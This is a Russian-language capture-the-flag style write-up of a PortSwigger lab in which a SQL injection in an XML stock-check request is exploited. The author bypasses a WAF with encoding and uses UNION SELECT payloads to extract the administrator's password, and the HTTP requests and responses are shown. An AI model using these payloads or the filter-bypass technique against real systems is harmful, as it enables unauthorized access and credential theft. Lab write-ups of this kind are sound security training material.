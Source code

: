 ```yaml
---
title: "SQL injection with filter bypass via XML encoding"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding"
---
```


Пост из пака **union_sqli**.

## Scope

```
https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/
```

В лабе есть уязвимая к **SQL injection** проверка товара в магазине. В БД есть таблица `users`, которая содержит в себе списки зарегистрированных пользователей с их паролями. Для прохождения нужно получить доступ к личному кабинету администратора.


## Solution

Первым делом нужно найти уязвимый запрос. На странице товара есть кнопка `check stock`, при нажатии она отправляет запрос на сервер. Сам запрос выглядит так:

```http
POST /product/stock HTTP/2
Host: 0a870041040afc00b575af4f00f900e1.web-security-academy.net
Cookie: session=K3VtfuVea5xBSJ82exXvOubl0Ohs9Gb0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Можно заметить, что тело запроса содержит `XML` документ. В нем есть 2 значения: `productId` и `storedId`. Попробую подставить пейлоад в эти параметры:

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1';</storeId></stockCheck>
```

Мне пришел ответ с сообщением `Attack detected`:

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

"Attack detected"
```

Скорее всего на сайте используется `WAF`. Для обхода попробую кодировать пейлод в `HEX` формат. Для этого `Burp Suite Academy` предлагает установить расширение [hackvertor](https://github.com/hackvertor/hackvertor/releases/tag/v1.8.10).

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/1.png){: height="200" .align-center}

Итак, попробую подобрать пейлоад для поля `StoredId`:

```
1+1 - Ok
1+2 - Ok
1 UNION SELECT '1234'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

1234
953 units
```

Попробую получить пароль для пользователя `administrator` с помощью следующего пейлоада:

```
1 UNION SELECT password FROM users WHERE username = 'administrator'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

06g5dq8793lynap20w97
953 units
```

Проверю пароль:

![IMG](/assets/images/IMG_union_sql/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/2.png){: height="200" .align-center}

Я в системе)
